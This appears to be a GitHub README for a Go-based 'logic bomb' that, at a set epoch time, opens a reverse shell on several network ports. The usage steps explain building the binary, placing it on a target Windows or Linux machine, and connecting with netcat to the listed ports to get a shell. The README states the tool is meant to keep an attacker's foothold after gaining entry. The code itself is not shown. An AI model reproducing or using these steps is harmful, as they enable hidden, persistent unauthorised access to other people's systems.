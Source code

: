 # logicbomb-reverse-shell
Description:

This is a GO-based logic-bomb script written by me to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'
3. Place the created binary file into your desired target location path of windows/Linux.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn a user shell and you are in!
Check whoami, pwd, ls, ifconfig.

Note:
Initial Machine Access Required: yes

This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

Work more on a user based priviledge esclation technique.

If you have any questions, please email me
shail.patel@nrel.gov

